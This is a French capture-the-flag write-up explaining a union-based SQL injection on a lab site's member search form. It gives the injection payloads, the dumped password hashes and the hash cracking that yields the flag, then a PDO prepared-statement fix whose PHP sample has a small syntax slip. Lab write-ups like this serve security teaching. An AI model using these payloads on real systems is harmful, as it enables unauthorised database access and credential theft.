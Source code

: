 
# Explications

Dans la page "member", il y un formulaire pour faire une recherche des membres par id du site :
```html
<form  action="#"  method="GET"  data-children-count="1">
<input  type="hidden"  name="page"  value="member">
<input  type="text"  name="id"  style="width:100%;">
<br>
<input  type="submit"  value="Submit"  name="Submit">
</form>
```
On observe que si on laisse le champs vide et que l'on lance une recherche, on obtient une erreur:

**You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1**

Donc on sait que le site utilise une base de donnée sous MySQL et qu'il ne gere pas les entrées non prevues.
On peut donc effectuer des injections SQL.
Celle qui a fonctionner était une **Union-Based SQL Injection**

## Etapes
On mets une condition vraie dans tous les cas

<code>1 OR 1=1</code>
> Tous les users s'affichent
<pre>
ID: 1 OR 1=1 
First name: Barack Hussein
Surname : Obama

ID: 1 OR 1=1 
First name: Adolf
Surname : Hitler

ID: 1 OR 1=1 
First name: Joseph
Surname : Staline

ID: 1 OR 1=1 
First name: Flag
Surname : GetThe
</pre>

On affiche essaye d'afficher tous les noms de colonnes et de tables présentes sur la base de données a la palce du **First name** et du **Surname**

<code>1 UNION SELECT column_name, table_name FROM information_schema.columns</code>
> Toutes les tables et leurs colonnes s'affichent a la place du **First name** et du **Surname**

On cherche et on trouve un table **users** qui contient les colonnes :
1. user_id
2. first_name
3. last_name
4. town
5. country
6. planet
7. Commentaire
8. countersign

On cherche donc des informations intéressantes.
<code></code>

On try 2 part 2 les champs jusqu'à trouver 2 colonnes intéressante, **Commentaire** et **countersign** qui donnent :

<code>1 UNION SELECT Commentaire, countersign FROM users</code>

<pre>
ID: 1 UNION SELECT Commentaire, countersign From users 
First name: Barack Hussein
Surname : Obama

ID: 1 UNION SELECT Commentaire, countersign From users 
First name: Amerca !
Surname : 2b3366bcfd44f540e630d4dc2b9b06d9

ID: 1 UNION SELECT Commentaire, countersign From users 
First name: Ich spreche kein Deutsch.
Surname : 60e9032c586fb422e2c16dee6286cf10

ID: 1 UNION SELECT Commentaire, countersign From users 
First name: ????? ????????????? ?????????
Surname : e083b24a01c483437bcf4a9eea7c1b4d

ID: 1 UNION SELECT Commentaire, countersign From users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
</pre>

Le password <code>5ff9d0165b4f92b14994e5c685cdce28</code> est en MD5 donc on applique un MD5 reverse et on obtient :
<pre>FortyTwo</pre>
On lower le tout et on applique un Sha256 pour obtenir le flag

# Comment l'éviter?
Il suffit d'utiliser le <code>prepare</code> quand on fait des requêtes à la base de données comme dans l'exmple ci-dessous:

```php
<?php
	function name(id) {
		try
		{
			// On se connecte
			$bdd = new PDO('mysql:host=localhost;dbname=name', 'mdp', '', array(PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION ));
			
			// On prépare la requête
			$requete = $bdd->prepare("SELECT * FROM users WHERE id = :id");

			// On lie la variable $id définie au-dessus au paramètre :id de la requête préparée
			$requete->bindValue(':id', $id, PDO::PARAM_STR);

			//On exécute la requête
			$requete->execute();
			
			// On récupère le résultat
			if ($requete->fetch())
			{
				echo 'INFORMATIONS';
			}
		} catch (Exception $e)
		{
			die('Erreur : ' . $e->getMessage());
		}
	}
?>
```